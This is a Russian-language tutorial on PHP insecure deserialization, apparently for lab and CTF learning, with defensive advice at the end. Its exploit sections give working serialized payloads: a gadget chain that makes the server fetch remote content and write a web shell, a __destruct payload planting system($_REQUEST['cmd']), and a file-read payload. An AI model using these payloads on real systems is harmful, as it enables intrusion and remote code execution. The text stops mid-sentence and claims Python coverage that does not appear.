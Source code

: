 
# Insecure Deserealization. Общая концепция на PHP 
  
### 1. Что такое и с чем едят?  
  
### Начнём с  сериализации  
  
**Сериализация** - это способ превратить **обьект** в **поток байтов**, похожих на **строку**, сделать из **огромного набора данных** просто **строчку**. Строчка же потом может использоваться или куда-нибудь передаваться. Обязательное отличие сериализованных данных от формата данных (например JSON) это передача объектов класса. У языков программирования существуют методы сериализации в библиотеках или в самом языке, которые как раз могут передавать классы (если это необходимо).  
  
<br/>  
  
**PHP** имеет встроенную сериализацию. Дабы преобразовать наш объект в поток байтов,нам нужно написать serialize($obj). Поток будет выглядить так:  
  
```  
O:4:"User":2:{s:8:"username";s:4:"nope";s:7:"isAdmin";b:0;}  
```  
  
* O:4:"User":2: Здесь O означает, что сериализован объект. "User" - это имя класса, к которому относится сериализованный объект. 2 указывает на количество свойств в объекте.  
  
  
* s:8:"username";s:4:"nope";: Здесь s:8 означает, что следующая строка имеет длину 8. "username" - это имя свойства объекта, и s:4:"nope" указывает на строку "nope", которая является значением свойства.  
  
  
* s:7:"isAdmin";b:0;: Здесь s:7 означает, что следующая строка имеет длину 7. "isAdmin" - это имя другого свойства объекта. b:0 указывает на булево значение false (0) для свойства isAdmin.  
  
Этот код показывает, как объект класса `User` был сериализован в строку для хранения или передачи данных. В нем закодированы имя пользователя (`username`) и статус администратора (`isAdmin`).  
  
  
  
  
  
  
  
### А зачем нужна сериализация?  
  
Хорошо, мы поняли что есть какая-то фигня, которая может объект преобразовать в строчку каких-то байтов. И, собственно, напрашивается. А нахрена это? А вот для этого:  
* Для записи сложных данных в межпроцессную память, файл или базу данных.  
  
  
* Для отправки сложных данных, например, по сети, между различными компонентами приложения или в вызове API.  
  
Важно отметить, что при сериализации объекта его состояние также сохраняется. Другими словами, атрибуты объекта сохраняются вместе с присвоенными им значениями.  
  
### Десериализация  
  
Наверное вы уже догадались, что **десериализация** - обратный процесс сериализации. Т.е восстановление **объекта** из **потока байтов** для дальнейшего использования  
  
### Небезопасная десериализация  
  
В общех чертах я рассказал что такое **сериализация**, **десериализация**, зачем оно нужно и показал примеры кода. Теперь нам нужно понять как мы можем это использовать. А также нам нужно выработать свою методологию поиска этой редкой вулны. На самом деле уязвимость нелегко найти при black-box тестировании, поэтому я бы отнёс её к разряду white-box.  
  
Очевидно, что **небезопасная десериализация** - это **небезопасный способ передачи сериализованных данных**, которыми управляет юзер. Самый базовый пример:  
  
Представьте, что у вас в **cookie-файлах** хранится информация о вашем юзере в **сериализованном формате**. **Cookie-файлы** хранятся у **клиента**, значит мы их можем изменить. А представьте что будет, если мы поменяем своё имя в этих сериализованных данных на admin? Полный захват учётки админа. Вот и весь простой пример.  
  
### 2. Методы эксплуатации / читщит  
  
  
Ранее мы рассмотрели простой пример с плохой логикой в файлах куки. Но это был самый простой и не очень реалистичный пример эксплуатации  
  
Рассмотрим эксплуатацию через **Magic Methods**  
  
**Магические методы в PHP** - это набор некоторых методов, которые автоматически вызываются при определенных обстоятельствах.  Дока на них [здеся](https://www.php.net/manual/ru/language.oop5.magic.php). Но я более чем уверен, что вам будет влом это читать, поэтому выделю быстро и кратко некоторые из них (читать все необязательно):  
  
* **__construct()** - эм, ну как бы самый базовый метод при котором мы устанавливаем значения переменных. Каждый использовал, я думаю :) Метод вызывается всегда при создании объекта  
 <details><summary>Пример __construct()</summary>  
  
```  
class User {   
    public  $id;  
	public  $username;
	public  $email;
	private  $password;
	public  function __construct($id, $username, $email, $password){ 
				$this->id = $id;
				$this->username = $username;
				$this->email = $email;
				$this->password = $password;
	}
	$obj = new User(12, "Nope","dan@gmail.com","123456");  
```  
  
</details>  
  
  
* **__destruct()** - обратный метод констракта. Это метод класса, который вызывается автоматически при уничтожении объекта, например, когда на объект больше нет ссылок или когда выполнение программы завершается. Деструктор часто используется для освобождения ресурсов, таких как закрытие файлов или соединений с базой данных.  
<details><summary>Пример __destruct() и его срабатывание</summary>  
  
```  
class Example {  
 public function __construct() { echo "Объект создан"; }  
 public function __destruct() { echo "Объект уничтожен"; }}  
  
  
// Пример 1: Объект уничтожится, когда переменная $obj перестанет ссылаться на него  
$obj = new Example();  
$obj = null; // Объект уничтожится здесь  
  
  
// Пример 2: Объект уничтожится при завершении скрипта  
$obj = new Example();  
// Конец скрипта, объект уничтожится здесь  
  
  
// Пример 3: Явный вызов unset() для удаления ссылки на объект  
$obj = new Example();  
unset($obj); // Объект уничтожится здесь  
  
  
// Пример 4: Явный вызов деструктора через метод __destruct()  
$obj = new Example();  
$obj->__destruct(); // Объект уничтожится здесь  
  
  
// Пример 5: Объект уничтожится при выходе из функции  
function createObject() {  
 $obj = new Example();}  
createObject(); // Объект уничтожится здесь  
  
```  
  
</details>  
  
  
* **__sleep()** - метод позволяет определить, какие свойства объекта должны быть сериализованы. Поэтому когда происходит сериализация класса, она всегда включается. К примеру. У нас есть **password** и **username**. Мы хотим выдать куку, но не вставлять в неё **password** (это было бы глупо, хранить в куки-файлах пароли). Так вот, если в **__sleep()** указать **return array('username')**, то сериализовываться всегда будет только переменная **username**. Удобно? Удобно!  
<details><summary>Пример __sleep()</summary>  
  
```  
class User {  
	public $id;
	public $username;
	public $email;
	private $password;  
	public function __construct($id, $username, $email, $password) {
				$this->id = $id;
				$this->username = $username;
				$this->email = $email;
				$this->password = $password; 
	}
	
public function __sleep() { // Возвращаем список свойств, которые должны быть сериализованы 	
			return array('id', 'username', 'email');
			}
}
  
$user = new User(1, 'john_doe', 'john@example.com', 'secret');  
  
$serialized = serialize($user);  
echo $serialized;  
  
// Вывод: 

O:4:"User":3:{s:2:"id";i:1;s:8:"username";s:8:"john_doe";s:5:"email";s:16:"john@example.com";}  
  
```  
 </details>  
  
  
* **__wakeup()** - Если **__sleep()** используется при сериализации, очевидно, что wakeup при десериализации. Когда объект десериализуется с помощью функции `unserialize()`, PHP автоматически вызывает метод `__wakeup()`, если он определен в классе. Этот метод позволяет восстановить какие-либо данные или настройки объекта после десериализации.  
<details><summary>Пример __wakeup()</summary>  
  
```  
class User {  
	public $id;
	public $username;
	public $email;
	private $password;  
	public function __construct($id, $username, $email, $password){ 
				$this->id = $id;
				$this->username = $username;
				$this->email = $email;
				$this->password = $password; 
	}  
	public function __sleep() {
				return array('id', 'username', 'email');
	}  
	public function __wakeup() { // Можно выполнить какие-либо действия после десериализации 		
				$this->password = ''; // Обнуляем пароль 
	}
}  
  
$serialized = 'O:4:"User":3{s:2:"id";i:1;s:8:"username";s:8:"john_doe";s:5:"email";s:16:"john@example.com";}';  
  
$user = unserialize($serialized);  
  
echo $user->id . "\n"; // 1  
echo $user->username . "\n"; // john_doe  
echo $user->email . "\n"; // john@example.com  
echo $user->password . "\n"; // ''
  
```  
  
</details>  
  
* **__toString()** - метод автоматически вызывается, когда объект требуется представить в виде строки, например, при использовании в функции **echo** или в строковом контексте  
<details> <summary>Пример __toString()</summary>  
  
```  
class TestClass {    
   public $foo;    
    
   public function __construct($foo){  
			$this->foo = $foo;    }    
    
   public function __toString(){  
			 return $this->foo;
   }
}    
$class = new TestClass('Hello');
echo $class; //Выведет Hello вместо ошибки  

```  
  
</details>  
  
Отлично, мы разобрали все популярные магические методы, которые используются для эксплуатации нашей уязвимости. Ну а кто не просмотрел - говнюк и всё-равно вернётся сюда для понимания. Так вот, в итоге при WhiteBox'e обращайте внимание на эти главные методы, если ищете десериализацию :) Ниже будут приведены примеры эксплоитов:  
  
  
<details><summary>Через __wakeup()</summary>  
  
Рассмотрим следующий код с тачки **BroScience** на **HTB**:  
  
```  
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}
  
class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```  
  
///Тут должен быть эмулятор cmd. И было бы круто если бы этот фрагмент кода считал строки. Типо в строке 17 такой-то такой-то код. Удобно очень  
  
У нас есть класс **AvatarInterface** с полями **tmp,imgPath**, а также **magic** методом **__wakeup()** . Вспоминаем когда вызывается **wakeup** метод (при десериализации  ес чо)  
  
В **wakeup** есть поле **a**, которое принимает объект **Avatar** и передаёт ему в конструктор значение поля **imgPath**, а потом вызывает функцию **save** из этого объекта. Записали, запомнили. Теперь другой класс.  
  
**Avatar**. Собственно, он принимает в конструктор файл (ну так задумано как минимум) и присваивает его своему полю **imgPath**  
Функция **save** принимает в себя переменную, в которой должны быть данные для картинки (ну необязательно). Дальше она открывает файл  **imgPath** (который мы передали в конструктор через **wakeup**) для записи. Следующим шагом она записывает в **imgPath** содержимое **tmp** из объекта **AvatarInterface**  
  
(если что  file_get_contents может принимать URL вместо файла, это так особенность PHP. Наверное напишу про это когда LFI буду делать)  
  
Подытожим:  
У нас есть 2 объединенных между собой класса. Через один мы можем контролировать переменные другого, а следовательно мы контролируем какой файл записать и что в него записать (imgPath и tmp) . Только вот нам нужно найти такую часть кода в этом приложении, которая смогла бы всю нашу парашу десериализовывать.  
  
Если копаться на тачке, то мы должны найти следующий фрагмент кода:  
  
```  
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }                                 
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```  
  
Откину лишние фрагменты с сессией. Он проверяет установлена ли в куки файлах **user-prefs** переменная. Если да, то мы переходим к блоку **else**, где **up_cookie** присваивается значение **user-prefs**  
  
Следующим шагом **up_cookie** декодируется из **base64** формата и десериализуется, а полученное  сохранится в **up** переменной. Дальше он вызывает функцию **theme**  
  
Идеальный случай! Также стоит помнить, что уязвимый объект должен быть виден другому коду, т.е нашей функции get_theme, иначе код просто не поймёт значение какого класса мы ему передаём. К примеру, как код поймёт что это за объект?)  
  
  
O:15:"AvatarInterface":2:{s:3:"tmp";s:57:"https://webhook.site/4c85cfb1-e514-418f-845b-39e65a0d45f8";s:7:"imgPath";s:13:"./abobich.php";}  
  
Правильно, что никак. Тут строго-настрого указано, что в AvatarInterface должны быть 2 поля со значением tmp и imgPath. Как код поймёт что это за такой объект AvatarInterface, если он не указан в коде? Но нам это не страшно. В коде есть подключение файла, в котором находится и get_theme функция и наши классы объектов :) (а могло быть подключение лишь одной функции get_theme) вот оно:  
  
```  
include_once "utils.php";  
```  
  
Теперь можно выдохнуть и написать эксплоит. Код под **exploit** выглядил бы так:  
  
```  
<?php  
class Avatar{  
    public $imgPath;  
  
    public function __construct($imgPath){  
        $this->imgPath = $imgPath;  
    }  
  
    public function save($tmp){  
        $f = fopen($this->imgPath, "w");  
        fwrite($f, file_get_contents($tmp));  
        fclose($f);  
    }  
}  
  
class AvatarInterface {  
    public $tmp;  
    public $imgPath;  
  
    public function __wakeup(){  
        $a = new Avatar($this->imgPath);  
        $a->save($this->tmp);  
    }  
}  
  
$avatar_interface = new AvatarInterface();  
$avatar_interface->tmp = "https://webhook.site/4c85cfb1-e514-418f-845b-39e65a0d45f8"; //Сюда мы должны записать вредоносный код (типо system($_REQUEST['cmd'])  
$avatar_interface->imgPath = "./abobich.php"; // Куда сохранится наш файл  
  
$ser = serialize($avatar_interface);  
  
echo $ser;  
?>
  
```  
  
Т.к наша переменная декодирует base64, мы должны закодировать нашу полезную  нагрузку в base64. Используем для этого cyberchef:  
  
///тут фотка должна быть  
  
Я создал мини-версию сервера как на HTB, поэтому мой код будет укороченнее, но такой же по эксплуатации уязвимости. Давайте теперь отправим нашу полезную нагрузку:  
  
///Фотка  
  
Я использую windows т.к я ленивая жопа и мне в падлу поднимать сервак на линуксе. Как видно, мы в cookie файлах указали **user-prefs** и через **=** указали base64 нашей нагрузки. И это сработало! Теперь у меня появился файл **abobich.php** с содержимым моей ссылки (там было пусто, поэтому файл тоже пустой лол):  
  
///Фото  
  
Но предположим, что в ссылке был указан мой файл с полезной нагрузкой в виде **<?php system($_REQUEST['cmd']);?>**. Тогда мы могли бы получить RCE:  
  
//ФОТО  
  
Вот и всё :) Попрактиковаться можно здесь ->/// URL  
</details>  
  
<details><summary>Через __destruct()</summary>  
  
Как я уже говорил, destruct вызывается либо когда скрипт заканчивается, либо когда переменная больше не указывает на объект. Ну и частные случаи там ещё были.  
Рассмотрим следующий код:  
  
```  
<?php  
  
class DatabaseExport  
{  
    public $user_file = 'users.txt';  
    public $data = '';  
  
    public function update_db()  
    {  
        echo '[+] Grabbing users from text file <br>';  
        $this-> data = 'Success';  
    }  
  
  
    public function __destruct()  
    {  
        file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);  
        echo '[] Database updated <br>';  
        //  echo 'Gotta get this working properly...';  
  }  
}  
  
$input = isset($_GET['arepo']) ? $_GET['arepo'] : '';  
$databaseupdate = unserialize($input);  
  
$app = new DatabaseExport;  
$app -> update_db();  
  
  
?>
```  
//cmd  
  
Существует класс, в котором есть 2 переменные  
  
* $user_file - название файла  
* $data - что хотим положить в файл  
  
А конкретнее эти переменные используются в функциях update_db() и __destruct():  
  
* update_db() - в свою очередь она присваивает переменной $data строку "Success". Это то, что будет положено в файл  
  
* __destruct() -  он же создаёт файл в работающей директории, с именем **user_file** переменной и данными из **data** переменной  
  
Дальше в коде мы видим, что код принимает в переменную **$input** данные параметра **arepo**. Дальше он десериализует данные в переменную **$databaseupdate**. Опять же, **destruct__** вызывается при завершении скрипта :) Улавливаете суть? Нам нужно просто сделать **payload** из данного класса и просто передать его в параметр. Когда скрипт закончится, выполнится наш **__destruct()**. Идея такова, что мы можем записать бэкдор туда. Давайте создадим **payload**:  
  
```  
<?php  
class DatabaseExport  
{  
    public $user_file = "code.php";  
    public $data = "<?php system(\$_REQUEST['cmd']);?>";  
  
}  
$input = new DatabaseExport();  
echo serialize($input);  
?>
```  
  
Вывод такой:  
  
```  
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"code.php";s:4:"data";s:30:"<?php system($_REQUEST['cmd']);?>";}  
```  
Теперь просто кодируем нашу нагрузку в URL чтобы ошибки синтаксиса не словить. [Кодировщик](https://meyerweb.com/eric/tools/dencoder/) тута  
  
//Фото  
  
Нажимаем encode и копируем. Теперь давайте отправим запрос с нашим пэйлоадом:  
  
//Фото  
  
Отлично! Теперь мы можем обратиться к файлу, который создали. Он имеет параметр cmd и может выполнять ОС-команды. Давайте попробуем что-то выполнить:  
  
//Фото  
  
И всё работает прекрасно. Мы снова смогли разобрать пример эксплуатации. Причём он не такой уж и тяжелый :)  
  
</details>  
  
  
<details><summary>Пример __toString()</summary>  
  
Рассмотрим следующий код:  
  
```  
<?php  
class FileClass  
{  
    public $filename = 'error.log';  
  
    public function __toString(){  
        return file_get_contents($this->filename);  
    }  
}  
  
class User  
{  
    public $age = 0;  
    public $name = '';  
  
    public function __toString(){  
        return 'User ' . $this->name . 'is ' . $this->age . ' y.o';  
    }  
}  
  
if(isset($_GET['error'])){  
    $obj = new FileClass();  
    echo $obj;  
}  
if(isset($_GET['user'])){  
        $obj = unserialize($_GET['user']);  
        echo $obj;  
}else{  
    $obj = new User;  
    echo $obj;  
}  
?>
```  
  
Существует 2 класса:  
  
* FileClass - он содержит в себе имя файла и функцию **__toString()**, которая выводит собственно файл по переменной $filename  
  
  
* User - он содержит в себе **$age** и **$name**. По умолчанию равны фигне полной. Также есть функция, которая выводит их через метод __toString()  
  
  
Смотря на код дальше, мы можем увидеть, что есть проверка:  
  
* Если в запросе есть параметр **user**, то десериализуй его и выведи его с помощью __toString() метода (не забываем, что **__toString()** вызывается когда мы обьект пытаемся через **echo** вывести)  
  
В теории мы можем передать объект FileClass и вместо error.log вывести любой другой файл. Это означает, что мы можем добиться чтения файлов :) Погнали попробуем снова написать эксплоит.  
  
```  
<?php  
  
class FileClass  
{  
    public $filename = 'C:\Users\Noped\PhpstormProjects\untitled\toStringEX\main.php';  
  
    public function __toString(){  
        return file_get_contents($this->filename);  
    }  
}  
  
$obj = new FileClass();  
echo serialize($obj);  
?>
```  
  
Я захотел прочитать код, указанный выше)) Ну а почему бы и нет, правильно?  
  
Payload выглядит так:  
```  
O:9:"FileClass":1{s:8:"filename";s:60:"C:\Users\Noped\PhpstormProjects\untitled\toStringEX\main.php";}  
```  
  
Не забываем конвертировать его в URL дабы избежать ошибок синтаксиса. И делаем запрос :)  
  
//фото  
  
И мы снова успешно разобрали ещё одну функцию  
  
</details>  
  
### 3. Защита кода

1. Не используйте сериализацию, используйте JSON. 
2. Используйте белые списки на классы. Ну и главное в них ничего не напортачьте :)
```
$allowedClasses = ['User'];
$user = @unserialize($_GET['user'], ['allowed_classes' => $allowedClasses]);
```

### 4. Методология поиска  
  
#### BlackBox  
  
Способ простой. Их два:  
  
1. CVE на  уязвимую версию фреймворка. Это можно обнаружить через сканеры.
2.  Искать закодированные значения, который при декоде похожи на поток байтов в  PHP
  
#### WhiteBox  
  Всего 1 верный способ))
  
 1.  Ищите функции **unserialize** или **serialize**. Смотрите, что конретно они обрабатывают и какие файлы подключены к файлу, где эта функция используется. Потому что десериализацию можно использовать если в коде существует определенный класс.


### 5. Итоги  
  
Вот и закончился небольшой обзор уязвимости. Мы в краце обсудили Python десериализацию и обучились десериализации на PHP. Чтобы узнать особенности и фишки десериализации на других ЯПах с примерами уязвимости и кодом, советую прочитать наши статьи:
